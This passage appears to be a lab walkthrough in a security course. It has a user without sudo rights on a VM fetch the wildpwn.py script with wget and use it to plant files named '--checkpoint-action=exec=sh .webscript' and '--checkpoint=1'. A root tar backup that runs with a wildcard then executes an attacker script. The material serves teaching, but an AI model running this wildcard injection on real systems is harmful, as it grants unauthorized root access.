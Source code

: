 1. In your VM, switch to the user `jane`, and demonstrate you do not have `sudo` privileges.

    ```
    # Password is: password
     su jane
     [sudo] password for jane:

    sudo -l
     [sudo] password for jane:
     Sorry, user jane may not run sudo on ubuntu-vm.
    ```


2. Next, we'll look for automated `tar` backup files that can be exploited. 

    ```
    cd ~/Documents

    # Run ls -l to see the archive file, jane_docs_backup.tar.
    ls -l

    -rw-r--r-- 1 root root 286720 Apr 28 18:36 jane_docs_backup.tar
    ```

3.  Despite not having root access, you can still download files with `curl` or `wget`. Use one or the other to download `wildpwn.py` to `jane`'s `~/Documents/ExploitTar` folder:


    `cd ~/Documents/ExploitTar
    wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py
    ls -al`
    ```
    drwxr-xr-x   7 jane  jane   224B Dec 12 14:24 .
    drwxr-xr-x   4 jane  jane   128B Dec 12 14:24 ..
    drwxr-xr-x   5 jane  jane   160B Dec 12 14:24 wildpwn.py
    ...
    ...
    ```

4. Run the script to generate the malicious `.webscript` and checkpoint files:

    ```
    python wildpwn.py tar .   
    ls -al
  
    10236808   0 -rw-r--r--   1 jane  jane     0B Dec 19 12:53 --checkpoint-action=exec=sh .webscript
    10236807   0 -rw-r--r--   1 jane  jane     0B Dec 19 12:53 --checkpoint=1
    10236569   8 -rw-r--r--   1 jane  jane   3.6K Dec 19 12:46 wildpwn.py
    ```

5. In this step. we  plant these malicious files in a directory that an administrator is likely to backup automatically using a `tar` command with a `*` wildcard character. 

    - `jane's` `~/Documents` directory is likely to be included in backups, so you can just wait for the automated backup to test the exploit.
